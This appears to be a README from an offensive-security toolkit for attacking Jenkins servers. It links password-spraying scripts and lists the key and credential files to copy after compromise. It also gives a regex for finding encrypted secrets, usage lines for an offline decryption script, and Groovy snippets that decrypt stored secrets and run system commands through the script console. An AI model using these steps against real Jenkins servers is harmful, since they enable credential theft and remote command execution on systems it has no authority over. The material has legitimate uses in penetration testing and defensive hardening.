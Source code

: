 Password spraying
=================

Use [this python script](./password_spraying/jenkins_password_spraying.py) or [this powershell script](https://github.com/chryzsh/JenkinsPasswordSpray).


Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Decrypt Jenkins secrets offline
===============================

Use [this script](./offline_decryption/jenkins_offline_decrypt.py) to decrypt previsously dumped secrets.

```
Usage:
	jenkins_offline_decrypt.py <jenkins_base_path>
or:
	jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
	jenkins_offline_decrypt.py -i <path> (interactive mode)
```


Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```
